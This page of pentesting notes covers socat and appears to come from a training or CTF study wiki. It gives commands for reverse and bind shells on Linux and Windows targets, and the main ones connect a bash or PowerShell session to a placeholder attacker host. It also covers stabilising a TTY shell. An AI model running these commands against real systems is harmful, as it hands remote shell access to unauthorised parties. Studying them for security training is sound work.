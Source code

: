 ### **Socat** <a href="#ipvmasgoj7hj" id="ipvmasgoj7hj"></a>

* Connector between two points.
  * E.g. listening port and the keyboard.
  * E.g. listening port and a file, or two listening ports.

#### **Reverse Shells** <a href="#id-6dzhcw222uns" id="id-6dzhcw222uns"></a>

* Basic reverse shell listener syntax.

socat TCP-L:\<port> -

* Takes two points (a listening port, and standard input) and connects them together.
* Resulting shell is unstable and is equivalent to nc -lvnp \<port>.
* Syntax for Windows target host to connect back to listener.

socat TCP:\<LOCAL-IP>:\<LOCAL-PORT> EXEC:powershell.exe,pipes

* 'pipes' is used to force powershell (or cmd.exe) to use Unix style standard input and output.
* Syntax for Linux target host to connect back to listener.

socat TCP:\<LOCAL-IP>:\<LOCAL-PORT> EXEC:"bash -li"

#### **Bind Shells** <a href="#b6amy73syiaj" id="b6amy73syiaj"></a>

* Syntax to create listener on Linux target host.

socat TCP-L:\<PORT> EXEC:"bash -li"

* Syntax to create listener on Windows target host.

socat TCP-L:\<PORT> EXEC:powershell.exe,pipes

* 'pipes' used to interface between the Unix and Windows ways of handling input and output in a CLI environment.
* Connect to waiting listener from the attack host.

socat TCP:\<TARGET-IP>:\<TARGET-PORT> -

* Socat can create fully stable Linux tty reverse shell.

socat TCP-L:\<port> FILE:\`tty\`,raw,echo=0

* Socat connects a listening port and a file.
  * Passing in the current TTY as a file and setting the echo to be zero.
  * Equivalent to using the Ctrl+Z, stty raw -echo; fg trick with a netcat shell.
* First listener can be connected to with any payload.
* Special listener must be activated with a very specific socat command.
  * Most hosts do not have socat installed by default.
  * Upload precompiled socat binary that can then be executed as normal.

socat TCP:\<attacker-ip>:\<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

* Create an interactive bash session.

EXEC:"bash -li".
